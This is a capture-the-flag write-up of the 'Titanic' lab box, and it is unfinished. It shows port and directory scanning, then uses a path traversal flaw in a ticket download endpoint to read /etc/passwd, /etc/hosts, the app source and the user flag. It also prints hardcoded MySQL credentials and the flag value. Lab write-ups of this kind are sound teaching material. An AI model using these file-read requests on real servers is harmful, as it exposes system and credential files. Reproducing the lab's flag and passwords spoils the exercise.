 ```yaml
---
title: 'Season 7 - Titanic'
description: 'Writeup for Titanic box'
pubDate: 'Feb 26 2025'
heroImage: 'blog-placeholder-4.jpg'
---
```


**Difficulty: Easy**

## Information Gathering

### Port scan

```bash
kali$ nmap -sV -sC $TARGET

22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://titanic.htb/
Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.32 seconds
```

## Enumeration  

### Web server - `titanic.htb`
Running on host `titanic.htb`. So let's add it to our `/etc/hosts` file and begin exploring the site. 

Http response header:
`Server: Werkzeug/3.0.3 Python/3.10.12`

#### Path enumeration
After poking around a bit, we see there's only one page but with a form to book a trip. Let's enumerate the site to see if there's any interesting paths.

```bash
kali$ gobuster dir -u http://titanic.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://titanic.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/download             (Status: 400) [Size: 41]
/book                 (Status: 405) [Size: 153]
/server-status        (Status: 403) [Size: 276]
```

Let's dig in to these endpoints. Once we book a trip via `POST /book`, a JSON file is downloaded from a `/download` endpoint. Examining these requests in Burpsuite don't raise any immediate red flags.

The flow looks like:

```bash
# Request 1
POST /book
Host: titanic.htb
Cintent-Type: application/x-www-form-urlencoded
...

name=a&email=a%40a.com&phone=1234567890&date=2025-02-28&cabin=Suite

# Response 1
Redirecting you to /download?ticket=<uuid>.json

# Request 2
GET /download?ticket=e3b22b09-33ad-434f-9d10-f022cf07efc4.json HTTP/1.1
Host: titanic.htb

# Response 2
...
'{ "name": "a", "email": "a@a.com", "phone": "1234567890", "date": "2025-02-28", "cabin": "Standard"}'
```

When looking at this, it does seem odd that the `.json` prefix is required. By removing the prefix, we see the response `404 Ticket not found`. Interesting... I suspect this site may be vulnerable to a local file inclusion vulnerability. Let's try another file:

```bash
GET http://titanic.htb/download?ticket=/etc/hosts

## Response
HTTP/1.1 200 OK
Date: Wed, 26 Feb 2025 01:06:48 GMT
Server: Werkzeug/3.0.3 Python/3.10.12
Content-Disposition: attachment; filename="/etc/hosts"
Content-Type: application/octet-stream
Content-Length: 250
Last-Modified: Fri, 07 Feb 2025 12:04:36 GMT
Cache-Control: no-cache
ETag: "1738929876.3570278-250-324273100"
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

127.0.0.1 localhost titanic.htb dev.titanic.htb
127.0.1.1 titanic

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Aha! We've downloaded the hosts file. Interestingly the file contents are in the body of the response, which would imply that the web server is opening and reading the file.

Let's use gobuster to enumerate

```bash
kali$ gobuster dir -u http://titanic.htb/download?ticket=/var/www/html -w /usr/share/wordlists/dirb/common.txt

/index.html         (Status: 200)  [Size: 303]
```

This is the default apache page... No luck.

Trying to download `../app.py` was successful. From here we can infer some info about the directory structure:
```
webroot/
|- app.py
|- templates/
|  |- index.html
|- tickets/
   |- *.json
```

Inspecting the code, we confirm the web app only contains `/`, `/book` and `/download`. It stores tickets in the `tickets` subdirectory and does not validate the path when retrieving a ticket file. There's no secrets in this file, so we need to continue the hunt on how to exploit...

### Subdomain - `dev.titanic.htb`
It seems common practice with LFI to extract a bunch of common files such as `/etc/passwd`, `/etc/hosts`, `/etc/shadow` if permissions allow, `/etc/issue` or `/etc/os-release`. There's also some procs `/proc/version`, `/proc/cpuinfo`, and `/proc/meminfo`.

We were able to extract the `passwd` and `hosts` file successfully. Inspecting the hosts file, we find a `dev.titanic.htb` subdomain! A new site for us to explore. It's a self-hosted git service `gitea`. It has 2 repositories:
* `flask-app` which is the code for the `titanic.htb` site; and
* `docker-config`

Exploring docker-config, there are 2 folders: one for the Gitea service, and another for a MySQL db. The MySQL service is exposed on port `3306` of the host. The MySQL dockerfile has the credentials and details hardcoded in the file:

```yaml
MYSQL_ROOT_PASSWORD: 'MySQLP@$$w0rd!'
MYSQL_DATABASE: tickets 
MYSQL_USER: sql_svc
MYSQL_PASSWORD: sql_password
```

Beyond this, it seems that the next steps from taking a sneak peek at a writeup is to continue enumerating the file system to find out data. Figure out where files are stored, read config values to get from one service to the next. I'm guessing we'll stumble upon some credentials or way to use the above credentials somehow.


## Exploitation

### LFI
Having discovered the site was vulnerable to LFI earlier, we can extract the `/etc/passwd` file to see what users exist. 

```
root:x:0:0:root:/root:/bin/bash
...
developer:x:1000:1000:developer:/home/developer:/bin/bash
...
```


## Privilege Escalation

## Post-Exploitation

### User flag
Using LFI, we can extract the `/etc/passwd` file to see what users exist. From here we see a user named `developer` exists. We can then use the download endpoint to get the file

```bash
GET http://titanic.htb/download?ticket=/home/developer/user.txt
d59e02a08933fa8830dc0db32b35f53b

## Notes & References